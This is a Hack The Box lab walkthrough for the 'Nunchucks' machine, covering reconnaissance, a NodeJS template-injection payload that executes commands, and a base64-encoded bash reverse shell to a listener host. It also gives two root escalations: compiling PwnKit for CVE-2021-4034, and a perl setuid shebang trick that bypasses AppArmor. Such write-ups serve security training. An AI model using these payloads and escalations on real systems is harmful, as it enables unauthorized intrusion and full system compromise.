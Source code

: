 ```yaml
---
layout: single
title: Nunchucks  - Hack The Box
excerpt: "Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary AppArmor profile while executing scripts that include the shebang of the profiled application."
date: 2025-06-01
classes: wide
header:
  teaser: /img2/nunchucks.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - NodeJS SSTI (Server Side Template Injection)
  - SUID Binary Exploitation [Privilege Escalation] (OPTION 1)
  - AppArmor Profile Bypass (Privilege Escalation) (OPTION 2)
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.122
```

![](/img2/Pasted%20image%2020250601184103.png)

- Add domain to local DNS

```bash
echo "10.10.11.122 nunchucks.htb" >> /etc/hosts
```

- Wfuzz to find subdomains

```bash
wfuzz -c --hw=2271 -t 20 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.nunchucks.htb" https://nunchucks.htb/
```

![](/img2/Pasted%20image%2020250601194255.png)

- Add subdomain to local DNS

```bash
echo "10.10.11.122 store.nunchucks.htb" >> /etc/hosts
```

## Exploitation

- SSTI Injection

![](/img2/Pasted%20image%2020250601194519.png)

https://ctftime.org/writeup/34053

```javascript
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /etc/passwd')\")()}}
```

![](/img2/Pasted%20image%2020250601212336.png)

- Send reverse shell

```bash
echo -n "/bin/bash -i >& /dev/tcp/10.10.16.7/9000 0>&1" | base64
```

![](/img2/Pasted%20image%2020250601212739.png)

![](/img2/Pasted%20image%2020250601212819.png)

```javascript
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjcvOTAwMCAwPiYx|base64 -d|bash')\")()}}
```

```bash
nc -nlvp 9000
```

## Post-exploitation (OPTION 1)

- Find sudoers

```bash
find / -perm -4000 2>/dev/null 
```

![](/img2/Pasted%20image%2020250601213525.png)

- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

## Post-exploitation (OPTION 2)

- Find Capabilities

```bash
getcap -r / 2>/dev/null
```

![](/img2/Pasted%20image%2020250601224157.png)

- Try to take advantage of capabilitie

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

> Maybe, we have a restriction, so we can take advantage of wrong shebang in bash script.

- Exploit shebang perl bug

```bash
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0); 
exec "/bin/sh"; 
```

```bash
chmod +x exploit.sh
./exploit.sh
```


![](/img2/Pasted%20image%2020250601213353.png)